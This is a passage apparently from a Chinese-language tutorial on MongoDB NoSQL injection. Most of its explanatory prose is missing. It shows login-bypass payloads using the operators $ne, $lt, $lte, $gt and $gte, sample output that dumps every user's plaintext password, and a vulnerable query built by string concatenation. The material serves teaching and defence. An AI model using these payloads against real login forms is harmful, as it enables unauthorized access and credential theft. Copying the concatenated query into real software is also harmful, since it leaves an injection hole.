 > 



```
db.users.find({'username':'admin', 'password':'admin123'})

{ "_id" : ObjectId("61445fbaa7a3dc15f3ac9c91"), "username" : "admin", "password" : "admin123" }

```

> 



```
usernmae[$ne]=0&amp;password[$ne]=0

```

> 



```
db.users.find({'username':{$ne:1}, 'password':{$ne:1}})

{ "_id" : ObjectId("61445fbaa7a3dc15f3ac9c91"), "username" : "admin", "password" : "admin123" }
{ "_id" : ObjectId("61445fd0a7a3dc15f3ac9c92"), "username" : "Gyan", "password" : "20080826" }
{ "_id" : ObjectId("61445fe1a7a3dc15f3ac9c93"), "username" : "guest", "password" : "guest" }
{ "_id" : ObjectId("61445fe7a7a3dc15f3ac9c94"), "username" : "demo", "password" : "demo" }
{ "_id" : ObjectId("61445ff9a7a3dc15f3ac9c95"), "username" : "Tom", "password" : "123456" }

```

> 



> 



```
username[$ne]=0&amp;password[$ne]=0
username[$lt]=0&amp;password[$lt]=0
username[$lte]=0&amp;password[$lte]=0
username[$gt]=0&amp;password[$gt]=0
username[$gte]=0&amp;password[$gte]=0

```

### 联合查询注入

> 



```
string query = "{username:'" + $username + "', password:'" + $password + "'}"

```
